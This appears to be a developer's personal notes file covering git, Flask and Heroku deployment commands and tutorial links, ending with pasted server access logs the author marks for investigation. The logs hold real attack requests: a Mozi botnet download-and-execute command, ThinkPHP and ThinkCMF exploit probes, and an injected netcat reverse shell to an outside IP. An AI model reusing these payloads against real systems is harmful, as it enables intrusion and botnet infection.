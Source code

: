 # Notes

## Contributing
- Fork it.
- Create a branch (git checkout -b my_malice)
- Commit your changes (git commit -am "Added Something Cool")
- Push to the branch (git push origin my_malice)
- Open a Pull Request
- Wait for me to figure out what the heck a pull request is...

## GIT
git push -u origin main

git fetch --all

git reset --hard HEAD
git clean -f -d
git pull


## Flask

-from flask import flask

pip3 install flask
pip3 install flask-cors
sudo apt-get update && sudo apt-get upgrade
sudo apt-get install python3.10
apt install python3-pip
apt install python3-flask
pip3 install -r requirements.txt
export FLASK_APP=app.py
export FLASK_ENV=development
export FLASK_RUN_EXTRA_FILES=file1:templates/index.html/file2:static/main.js/file3:static/style.css


flask run -h 0.0.0.0 -p 8080
flask run

## Cheat cheat
- curl cht.sh/python/flask


## Live server
from liveserver import LiveServer
ls = LiveServer(app)
    ls.run("0.0.0.0", 8080)

## uvicorn
uvicorn app:app --reload --port 80 --host 0.0.0.0

gunicorn -w 4 --bind 0.0.0.0:8000 wsgi:app


## Videos:
https://github.com/jakerieger/FlaskIntroduction/blob/master/templates/index.html


## Heroku
-$ heroku login
$ cd my-project/

$ git init OR - $ heroku git:remote -a maks-todo-api
$ heroku git:remote -a maks-todo-api

$ git add .
$ git commit -am "make it better"
$ git push heroku master

git branch -a
git push heroku main


To switch the default branch used to deploy apps from master to main, first create a new branch locally:

git checkout -b main
Next, delete the old default branch locally:

git branch -D master
From there, the local environment only knows about the main branch.

Reset the GIT repository hosted on the Heroku Platform using the heroku-reset command from the heroku-repo CLI plugin. Doing so will not impact the running application. (Note: Please communicate this change with your team. If you are working with other developers who are not aware of the reset, they might push to "master" which will overwrite the reset).

Re-deploy the application using the new default branch:

git push heroku main

todo/update/add/delete- Jinja
https://www.youtube.com/watch?v=yKHJsLUENl0
https://github.com/python-engineer/flask-todo/blob/master/templates/base.html

todo/update/add/delte/status/ jinja/some JS - most deep
https://github.com/a2975667/flask-gcp-mysql-demo
https://tichung.com/blog/2021/20200323_flask/

todo/update/
https://www.youtube.com/watch?v=Z1RJmh_OqeA

blog/users
https://www.youtube.com/watch?v=74NW-84BqbA&t=1818s

Vidoes/likes/views
https://www.youtube.com/watch?v=GMppyAPbLYk&t=253s


investigate from new TODO API Server
71.215.97.89 - - [13/May/2022 12:10:58] "GET /loadsavedtodo HTTP/1.1" 200 -
112.220.89.114 - - [13/May/2022 12:26:43] code 400, message Bad HTTP/0.9 request type ('27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$')
112.220.89.114 - - [13/May/2022 12:26:43] "27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0" HTTPStatus.BAD_REQUEST -



ode 400, message Bad request version ('´\x10r\x88CÓó\x9eU´)Ó(¬=\x8a¼\xad|Û\x9d¸k\x14\x95¸m_¥\x17EÑ\x00b\x13\x02\x13\x03\x13\x01À,À0À+À/Ì©Ì¨\x00£\x00\x9f\x00¢\x00\x9eÌªÀ¯À\xadÀ$À(À')                                                                       109.237.103.9 - - [17/May/2022 02:57:34] "D@                                                                                                  ®®¶CÓó¼­|Û¸m_¥EÑbÀ,À0À+À/Ì©Ì¨£" HTTPStatus.BAD_REQUEST
 -                                                                                                193.106.191.48 - - [17/May/2022 03:17:47] "GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1" 404 -                    193.106.191.48 - - [17/May/2022 03:58:35] "GET /?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php> HTTP/1.1" 200 -                                                                                192.241.213.149 - - [17/May/2022 04:15:16] "GET / HTTP/1.1" 200 -                                 185.180.143.8 - - [17/May/2022 04:21:01] "GET / HTTP/1.1" 200 -                                   38.106.120.198 - - [17/May/2022 04:21:35] "GET / HTTP/1.1" 200 -                                  205.210.31.137 - - [17/May/2022 04:43:53] code 400, message Bad request version ('À(À$À\x14À')    205.210.31.137 - - [17/May/2022 04:43:53] "ÊÆ-*@máY[l7Zðáå«,÷3ÂÔDà}íªÖsÕßhÌÌÀ/À+À0À,ÀÀÀ'À#ÀÀ    À(À$ÀÀ" HTTPStatus.BAD_REQUEST -                                                                    89.104.110.102 - - [17/May/2022 04:53:19] "GET / HTTP/1.1" 200 -                                  176.53.216.46 - - [17/May/2022 04:53:20] "GET /favicon.ico HTTP/1.1" 404 -                        94.102.61.10 - - [17/May/2022 04:59:45] "GET / HTTP/1.1" 200 -                                    193.106.191.48 - - [17/May/2022 05:00:28] "GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" 200 -    45.148.10.81 - - [17/May/2022 05:51:08] "GET /incl/image_test.shtml?camnbr=%3c!--%23exec%20cmd=%22mkfifo%20/tmp/s;nc%20-w%205%20193.124.7.9%2031337%200%3C/tmp/s|/bin/sh%3E/tmp/s%202%3E/tmp/s;rm%20/tmp/s%22%20--%3e HTTP/1.0" 404 -                                                                 193.106.191.48 - - [17/May/2022 05:56:39] "GET /console/ HTTP/1.1" 404 -                          193.106.191.48 - - [17/May/2022 06:06:29] "POST /Autodiscover/Autodiscover.xml HTTP/1.1" 404 




 changki.com